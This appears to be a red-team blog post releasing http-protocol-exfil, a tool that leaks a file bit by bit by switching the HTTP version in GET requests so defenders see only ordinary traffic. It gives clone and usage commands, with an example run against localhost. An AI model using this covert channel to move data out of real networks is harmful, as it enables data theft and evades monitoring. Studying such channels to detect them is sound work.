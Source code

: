 ```yaml
---
layout: post
title: Using the HTTP protocol version for exfiltration
excerpt_separator: <!--more-->
---
```



Releasing http-protocol-exfil, a tool that uses the HTTP protocol version to send a file bit by bit ("HTTP/1.0" is a 0 and "HTTP/1.1" is a 1). It uses GET requests so the Blue Team would only see the requests to your IP address.<!--more--> However, it takes a long time to send bigger files, for example it needs 1 hour to send 200 KB, and the amount of requests would be very high (8 times the number of bytes of the file).

![memillo](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/http_protocol_exfil/memillo.png)



## Download repository

```
git clone https://github.com/ricardojoserf/http-protocol-exfil
cd http-protocol-exfil
```


## Create listener 

To run the listener use listener.py with one optional argument: the port it will be listening in.

```
python3 listener.py [PORT]
```

Example:

```
python3 listener.py 8080
```

## Send a file

To send a file use sender.py with two mandatory arguments: the file path and the url of the listener; and one optional argument: the name of the file created remotely (if not used, the name of the input file is used).

```
python3 sender.py -u URL -i INPUTFILE [-o OUTPUTFILE]
```

Example:

```
python3 sender.py -u "http://127.0.0.1:8080" -i test.txt -o updated_test.txt
```

---------------------------------------------------------------

## Example

First the file is sent:

![image1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/http_protocol_exfil/image1.png)

If the variable debug is set to True (it is by default) you can see the binary values in the listener log messages:

![image2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/http_protocol_exfil/image2.png)

The new file is created with the content of the input file:

![image3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/http_protocol_exfil/image3.png)

---------------------------------------------------------------

## Motivation

I think (I am not sure) I read someone on Twitter who claimed to have used this to exfiltrate data and I liked the idea, if you are that person let me know.
